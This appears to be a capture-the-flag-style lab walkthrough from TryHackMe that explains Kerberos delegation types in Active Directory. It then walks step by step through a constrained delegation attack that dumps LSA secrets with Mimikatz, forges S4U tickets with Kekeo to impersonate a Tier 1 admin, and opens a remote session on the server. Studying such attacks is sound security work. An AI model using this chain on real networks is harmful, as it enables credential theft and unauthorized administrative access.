










Exploiting Kerberos Delegation
Next, we will take a look at Kerberos Delegation. When you talk about AD Delegation, this is usually what is being discussed, not Permission Delegation.
Kerberos Delegation
The practical use of Kerberos Delegation is to enable an application to access resources hosted on a different server. An example of this would be a web server that needs to access a SQL database hosted on the database server for the web application that it is hosting. Without delegation, we would probably use an AD service account and provide it with direct access to the database. When requests are made on the web application, the service account would be used to authenticate to the database and recover information.
However, we can allow this service account to be delegated to the SQL server service. Once a user logs into our web application, the service account will request access to the database on behalf of that user. This means that the user would only be able to access data in the database that they have the relevant permissions for without having to provide any database privileges or permissions to the service account itself.
Constrained vs Unconstrained
There are two types of Kerberos Delegation. In the original implementation of Kerberos Delegation, Unconstrained Delegation was used, which is the least secure method. In essence, Unconstrained Delegation provides no limits to the delegation. In the background, if a user with the "TRUSTED_FOR_DELEGATION" flag set authenticates to a host with Unconstrained Delegation configured, a ticket-granting ticket (TGT) for that user account is generated and stored in memory so it can be used later if needed. Suppose an attacker can compromise a host that has Unconstrained Delegation enabled. In that case, they could attempt to force a privileged account to authenticate to the host, which would allow them to intercept the generated TGT and impersonate the privileged service. If you want to see an example of the exploitation of Unconstrained Delegation, have a look here.
To combat the security failings of Unconstrained Delegation, Microsoft introduced Constrained Delegation in 2003. Constrained Delegation restricts what services an account can be delegated to, limiting exposure if an account is compromised. The following are examples of services that can be configured for delegation:
• HTTP - Used for web applications to allow pass-through authentication using AD credentials.
• CIFS - Common Internet File System is used for file sharing that allows delegation of users to shares.
• LDAP - Used to delegate to the LDAP service for actions such as resetting a user's password.
• HOST - Allows delegation of account for all activities on the host.
• MSSQL - Allows delegation of user accounts to the SQL service for pass-through authentication to databases.
Exploiting Constrained Delegation is usually more complex than exploiting Unconstrained Delegation since the delegated account can't just be used for everything. However, it can still be used for some powerful exploitation. An example of this would be if we were able to compromise an AD account that had constrained delegation configured. By knowing the plaintext password or even just the NTLM hash of this account, we could generate a TGT for this account, then use the TGT to execute a ticket-granting server (TGS) request for any non-sensitive user account in order to access the service as that user. Imagine impersonating an account with access to a sensitive database, for example.
Resource-Based Constrained Delegation
So there are actually three types of Kerberos Delegation. But this one deserves to be mentioned on its own. Introduced by Microsoft in 2012, Resource-Based Constrained Delegation (RBCD) once again provided additional restrictions on Kerberos Delegation for security. RBCD changes the delegation model entirely. Instead of specifying which object can delegate to which service, the service now specifies which objects can delegate to it. This allows the service owner to control who can access it. In our web application example, this means that instead of specifying that the web service account can delegate to the database service to access the database, we can now specify that on the database service that the web service account is allowed to delegate access to it.
Let's say that we have permission to configure RBCD for a service. This means we have the ability to set the msDS-AllowedToActOnBehalfOfOtherIdentity attribute for the AD Object. We can populate this attribute with the details of an AD account that we have access to. To now gain access to the service, we can generate a TGT for the account we control, which will allow us to interact with this service. If you want a detailed example of RBCD exploitation, take a look here.
Constrained Delegation Exploitation
We will exploit Constrained Delegation for this task. The first thing we need to do is enumerate available delegations. Let's use our new privileged user for the network couple of commands. We can use the Get-NetUser cmdlet of PowerSploit for this enumeration by running the following command:
Import-Module C:\Tools\PowerView.ps1
Get-NetUser -TrustedToAuth

Note: We will perform all these operation as t2_ross.bird as we need administrator privileges in THMWRK1 to use Mimikatz properly.
Based on the output of this command, we can see that the svcIIS account can delegate the HTTP and WSMAN services on THMSERVER1. You would think that this means we can only access websites on behalf of impersonated users. However, PowerShell Remoting uses the HTTP and WSMAN services as well. The ideal option would be to impersonate a Tier 1 Admin since this would provide us with administrative access over THMSERVER1.
Post Exploitation of Old Task [As Administrator of THMWRK1]
We will use mimikatz & dump the LSA secrets to find any credentials. We got Lucky.
privilege::debug
token:;elevate
lsadump::secrets
Let's run through the two commands:
• token::elevate - To dump the secrets from the registry hive, we need to impersonate the SYSTEM user.
• lsadump::secrets - Mimikatz interacts with the registry hive to pull the clear text credentials.

Crdentials Found:
Username: svcIIS
Password: Password1@
Now that we have access to the password associated with the svcIIS account, we can perform a Kerberos delegation attack. We will use a combination of Kekeo and Mimikatz. You can use another window for Mimikatz, but make sure to exit out of Mimikatz after the token::elevate command, otherwise the tickets will be loaded in the wrong context later on. We will use Kekeo to generate our tickets and then use Mimikatz to load those tickets into memory. Let's start by generating the tickets:

We first need to generate a TGT that can be used to generate tickets for the HTTP and WSMAN services:

tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@
Parameters explained:
• user - The user who has the constrained delegation permissions.
• domain - The domain that we are attacking since Kekeo can be used to forge tickets to abuse cross-forest trust.
• password - The password associated with the svcIIS account.
Now that we have the TGT for the account that can perform delegation, we can forge TGS requests for the account we want to impersonate. We need to perform this for both HTTP and WSMAN to allow us to create a PSSession on THMSERVER1:
Lets Find a target account.
Get-ADGroupMember -Identity "Tier 1 Admins"

I selected “t1_pamela.dunn” & will forge TGS for this account for the HTTP service.
tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_pamela.dunn /service:http/THMSERVER1.za.tryhackme.loc

Parameters explained:
• tgt - We provide the TGT that we generated in the previous step.
• user - The user we want to impersonate. Since t2_ accounts have administrative access over workstations, it is a safe assumption that t1_ accounts will have administrative access over servers, so choose a t1_ account that you would like to impersonate.
• service - The services we want to impersonate using delegation. We first generate a TGS for the HTTP service. Then we can rerun the same command for the WSMAN service.
Run the command again, this time for the WSMAN service.
tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_pamela.dunn /service:wsman/THMSERVER1.za.tryhackme.loc

Now that we have the two TGS tickets, we can use Mimikatz to import them:
Mimikatz

I started Mimikatz from the same kekeo directory as the files were stored there & i could use direct file names in mimikatz.
Commands:
privilege::debug
kerberos::ptt TGS_t1_pamela.dunn@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
kerberos::ptt TGS_t1_pamela.dunn@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
You can exit Mimikatz and run klist if you want to verify that the tickets were imported. Now that the tickets are imported, we can finally create our PSSession on THMSERVER1:

klist shows both the tickets are ready in memory.
Finally, Lets start PSSession
New-PSSession -ComputerName thmserver1.za.tryhackme.loc
Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc

Thus, we successfully accessed the THMSERVER1 as a Tier 1 Admin user.
Note: Once the 2 Tickets are in memory, instead of using PSSession, we could also use winrs.exe
eg. winrs.exe -r:THMSERVER1.za.tryhackme.loc cmd